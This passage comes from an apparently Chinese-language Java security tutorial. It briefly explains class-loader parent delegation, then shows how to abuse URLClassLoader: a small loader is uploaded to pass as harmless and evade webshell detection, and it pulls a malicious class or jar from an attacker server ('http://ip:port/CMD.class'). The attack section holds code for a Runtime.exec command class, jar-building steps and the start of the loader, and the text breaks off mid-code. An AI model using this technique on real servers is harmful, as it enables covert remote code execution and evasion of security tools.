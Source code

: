 - **避免加载重复类**：从流程图可以看出来，父类加载后的类子类不会再加载
- **保证Java核心库安全、防止内存中出现多份相同字节码**：比如`java.lang.Object`存放在`rt.jar`中，如果自定义一个`java.lang.Object`，不会将原有的覆盖，因为自定义的类会由`AppClassLoader`进行加载，向上委托发现已经加载就不会在加载自定义的类了

URLClassLoader 的利用
==================

> 通过 `java.net.URLClassLoader.class` 可以远程加载资源
> 
> 在上传 webshell 的时候如果不想上传执行代码的恶意文件 or 需要过狗，只上传一个 `URLClassLoader` 看起来无危害的文件，然后使用此文件远程加载执行命令的 jar 包或者 class 恶意文件

话不多说，开始搞，先来一个服务器上的恶意 class

```java
import java.io.IOException;

/**
 * @author ying
 * @Description
 * @create 2021-10-30 11:40 AM
 */

public class CMD {
    public static Process exec(String cmd) throws IOException {
        return Runtime.getRuntime().exec(cmd);
    }
}
```

然后，编译一下 `javac .\cmd.java` ，注意：**这个文件不能带包名，把 idea 的包名去掉在编译，否则提示找不到类**，这也容易理解，带上包名（全限定名），ClassLoader 会从本地寻找此 class 文件，当然找不到恶意的。将 `CMD.class` 上传到 vps （或在本地起个服务）；或者上传 jar 包，在 class 文件同级目录下写一个`manifest` 文件（其实文件名随意啦），内容如下（最后一行空行别忘记）：

```php
Manifest-Version: 1.0
Main-Class: addJarPkg

```

生成 jar 包的命令是 `jar -cvfm cmd.jar manifest -C cmd .`

![image-20211030222841093](https://raw.githubusercontent.com/yq1ng/blog/master/CTFShow/20211030222841.png)然后开始写利用类

```java
package com.yq1ng.URLClassLoader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

/**
 * @author ying
 * @Description
 * @create 2021-10-30 11:09 AM
 */

public class badURLClassLoader {
    public static void main(String[] args) {
        try {
            //  定义远程文件 URI
            URL url = new URL("http://ip:port/CMD.class");
//            URL url = new URL("http://ip:port/cmd.jar");
            //  创建 URLClassLoader 对象，并加载 class 类/ jar 包
            URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
```